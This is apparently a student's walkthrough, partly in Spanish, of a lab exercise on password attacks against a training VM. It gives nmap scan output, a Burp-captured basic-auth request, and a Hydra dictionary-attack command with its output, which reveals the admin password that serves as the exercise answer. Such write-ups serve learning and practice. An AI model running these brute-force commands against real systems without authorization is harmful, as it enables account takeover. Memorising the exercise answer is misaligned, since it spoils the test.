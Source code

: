 
# Walk: Password Attacks - SSH and RDP - VM #4
## Fecha: 20/02/2025
## Host: Ubuntu
## IP: 192.168.232.201
## Objetivo
The web page on VM #2 is password protected. Use Hydra to perform a password attack and get access as user _admin_. Once you have identified the correct password, enter it as the answer to this exercise.
## Herramientas
1. nmap
2. Burp
3. hydra
## Procedimiento y comandos
#### Paso 1: Escanemos el host para enumerar servicios:
- `nmap -sV --open 192.168.232.201 -oN vm-2.nmap-result.txt`
```
Nmap scan report for 192.168.232.201
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
Service Info: Host: 172.25.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.54 seconds
```
#### Obtenemos con Burp la cabecera:
- Hacemos un intento de login con el interceptor activado:
```
GET /index.php HTTP/1.1
Host: 192.168.232.201
Cache-Control: max-age=0
Authorization: Basic YWRtaW46dGVzdA==
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

```
#### Paso 2: Ejecutamos el ataque de diccionario con hydra: 
>Utilizamos metodo http-get - Ataque de autenticación básica en HTTP GET.
- `hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.232.201 http-get "/index.php" -f -v`
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-20 12:41:30
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://192.168.232.201:80/index.php
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[80][http-get] host: 192.168.232.201   login: admin   password: 789456
[STATUS] attack finished for 192.168.232.201 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-20 12:41:48
```
- [80][http-get] host: 192.168.232.201   login: admin   password: **789456**
